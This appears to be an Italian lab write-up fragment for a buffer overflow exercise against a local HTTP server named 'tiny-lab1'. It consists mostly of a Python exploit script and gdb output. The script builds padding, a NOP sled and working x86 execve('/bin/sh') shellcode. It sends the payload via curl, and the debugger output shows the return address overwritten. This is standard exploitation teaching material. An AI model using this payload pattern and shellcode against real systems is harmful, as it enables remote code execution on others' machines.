 exploit.py
```
import struct
import urllib
SIZE = 524
SHELLCODE = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
SHELLCODE_SIZE = 25
NOP = "\x90"
NOP_SIZE = 100
PADDING = "\x41"
PADDING_SIZE = SIZE - SHELLCODE_SIZE - NOP_SIZE
EIP = struct.pack("I", 0x42424242)
PAYLOAD = PADDING*PADDING_SIZE + NOP*NOP_SIZE + SHELLCODE + EIP
print urllib.quote_plus(PAYLOAD)
```

Eseguito nel seguente modo:
```
$ curl http://localhost:9999/`python exploit.py`

```
Verso il server eseguito in tramite gdb come segue:
```
root@283bf557ebdc:/opt# execnoaslr gdb tiny-lab1
GNU gdb (Ubuntu 8.1-0ubuntu3) 8.1.0.20180409-git
[...]
gdb-peda$ r
Starting program: /opt/tiny-lab1
listen on port 9999, fd is 3
child pid is 185
[New process 185]
accept request, fd is 4, pid is 181
HTTP/1.1 404 Not found
Content-length: 14

File not found172.17.0.1:34438 404 - AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��S��
[...]
[----------------------------------registers-----------------------------------]
EAX: 0x228
EBX: 0x0
ECX: 0x1
EDX: 0xf7fc3890 --> 0x0
ESI: 0xf7fc2000 --> 0x1d4d6c
EDI: 0x0
EBP: 0x80cd0bb0
ESP: 0xffffd600 --> 0x0
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xffffd600 --> 0x0
0004| 0xffffd604 --> 0xffffd750 --> 0x8a860002
0008| 0xffffd608 --> 0xffffd63c --> 0x10
0012| 0xffffd60c --> 0xf7ffdc44 --> 0xf7ffdc30 --> 0xf7fd4000 (jg     0xf7fd4047)
0016| 0xffffd610 --> 0x380
0020| 0xffffd614 --> 0x8048581 ("__libc_start_main")
0024| 0xffffd618 --> 0x380
0028| 0xffffd61c --> 0x380
```